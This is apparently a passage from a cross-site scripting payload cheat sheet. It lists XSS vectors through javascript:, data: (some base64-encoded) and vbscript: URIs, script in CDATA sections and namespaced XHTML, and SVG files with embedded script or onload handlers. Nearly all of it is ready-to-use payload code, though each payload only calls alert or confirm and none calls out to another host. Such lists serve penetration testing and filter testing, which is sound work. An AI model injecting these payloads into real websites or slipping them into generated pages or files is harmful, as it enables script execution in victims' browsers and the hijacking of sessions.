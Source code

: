 ```javascript
javascript://anything%0D%0A%0D%0Awindow.alert(1)
```

XSS with data:

```javascript
data:text/html,<script>alert(0)</script>
data:text/html;base64,PHN2Zy9vbmxvYWQ9YWxlcnQoMik+
<script src="data:;base64,YWxlcnQoZG9jdW1lbnQuZG9tYWluKQ=="></script>
```

XSS with vbscript: only IE

```javascript
vbscript:msgbox("XSS")
```

## XSS in files

** NOTE:** The XML CDATA section is used here so that the JavaScript payload will not be treated as XML markup.

```xml
<name>
  <value><![CDATA[<script>confirm(document.domain)</script>]]></value>
</name>
```

XSS in XML

```xml
<html>
<head></head>
<body>
<something:script xmlns:something="http://www.w3.org/1999/xhtml">alert(1)</something:script>
</body>
</html>
```

XSS in SVG

```xml
<?xml version="1.0" standalone="no"?>
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">

<svg version="1.1" baseProfile="full" xmlns="http://www.w3.org/2000/svg">
  <polygon id="triangle" points="0,0 0,50 50,0" fill="#009900" stroke="#004400"/>
  <script type="text/javascript">
    alert(document.domain);
  </script>
</svg>
```

XSS in SVG (short)

```javascript
<svg xmlns="http://www.w3.org/2000/svg" onload="alert(document.domain)"/>

<svg><desc><![CDATA[</desc><script>alert(1)</script>]]></svg>
<svg><foreignObject><![CDATA[</foreignObject><script>alert(2)</script>]]></svg>
<svg><title><![CDATA[</title><script>alert(3)</script>]]></svg>
```
